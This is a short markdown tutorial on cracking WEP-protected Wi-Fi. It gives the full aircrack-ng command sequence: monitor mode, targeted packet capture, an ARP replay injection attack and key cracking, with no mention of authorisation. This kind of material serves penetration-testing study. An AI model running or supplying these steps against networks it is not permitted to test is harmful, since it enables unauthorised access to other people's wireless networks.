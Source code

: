 ## WEP Overview

## Exploitation
As always, let's firstly check for available network interfaces:

`` iwconfig ``

Once we pick our network interface (for this example, I'm using wlan0), we have to switch it from 'Managed' to 'Monitor' mode:

``airmon-ng start wlan0``

Most likely, the name of the network interface will change - this is the name we'll use to sniff all nearby wireless networks:

``` airodump-ng wlan0mon ```

Once we pick the Access Point we want to monitor connections for, we grab its BSSID and its frequency channel:

`` airodump-ng --bssid EXAMPLE-BSSID -c EXAMPLE-CHANNEL -w WEP_Capture wlan0mon ``

We can now observe for associations between the AP and various clients. Clients will be stated under the STATION label. The Data label will show the number of Initialization Vectors per 10 second rate, and specifically for the WEP algorithm, it is recommended to capture around 10,000 data packets. 
In my case, I prefer capturing around 30,000 IVs in case of lower connection ratings. On a separate terminal, run an ARP replay attack until we get our specified number of IVs:

`` aireplay-ng -3 -b EXAMPLE-AP-MAC -h EXAMPLE-CLIENT-MAC wlan0mon ``

> [!NOTE]
> -3 is just short-hand for arpreplay within aireplay-ng

Now that we've captured enough data packets, it's time to get cracking! Make sure to add the .cap extension:

``` aircrack-ng WEP_Capture.cap ```
